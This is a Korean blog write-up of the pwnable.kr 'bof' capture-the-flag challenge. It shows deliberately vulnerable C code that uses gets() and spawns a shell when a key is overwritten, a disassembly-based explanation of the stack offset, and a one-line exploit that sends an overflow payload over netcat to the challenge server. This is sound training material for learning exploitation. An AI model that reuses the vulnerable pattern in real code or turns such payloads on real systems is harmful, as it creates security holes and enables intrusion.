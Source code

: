 ```yaml
---
layout: post
title: "[pwnable.kr] bof 풀이"
date: 2018-06-08 02:44
categories: "[Pwn]pwnable.kr"
tags: UnKN0wnName
---
```

>## bof - [5pt]
### Nana told me that buffer overflow is one of the most common software vulnerability.
### Is that true?<br />
### Download : http://pwnable.kr/bin/bof
### Download : http://pwnable.kr/bin/bof.c
### Running at : nc pwnable.kr 9000
  
  
---
 
문제 이름을 보아하니 이 문제는 Buffer Overflow를 사용하는 문제인 것 같네요. BOF에 대한 개념은 추후에 작성할께여  

일단 두 파일을 다운받아서 분석해 봅시다

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key)
{
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe)
	{
		system("/bin/sh");
	}
	else
	{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[])
{
	func(0xdeadbeef);
	return 0;
}
```
코드 자체에서 힌트를 줘버리네요
  
gets 함수가 받을 문제 수를 제한하지 않고 문자를 받아들여서 overflow가 일어나요  
오버플로우를 이용해 key 값을 0xcafebabe 로 바꿔주면 쉘을 딸 수 있을 것 같아요

이 부분을 디버거로 분석 가즈아~~~~

![bof_gdb_func](/pic/pwnable_kr/bof/bof_gdb_func.png)

func 함수를 어셈블리어로 보면 다음과 같아요  
여기서 문자를 받아서 들어가는 곳을 찾기위해서는 gets 함수의 인자를 봐야겠죠?  

<func+29> 부분에서 [ebp-0x2c] 부분의 주소를 eax에 넣어요  
<func+32> 에서 gets의 인자는 eax가 가지고 있는 주소가 되네요  
우리가 직접 넣는 값은 [ebp-0x2c]의 위치에 저장되는 것을 확인할 수 있어요!

따라서 이 부분을 이용해 [ebp- 0x2c] 0xcafebabe를 넣어주면 CLEAR!!!

# Exploit

![bof_ex_pic](/pic/pwnable_kr/bof/bof_ex_pic.png)

---
>### $ (python -c 'print "\x90"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000

![bof_ex_flag](/pic/pwnable_kr/bof/bof_ex_flag.png)

----
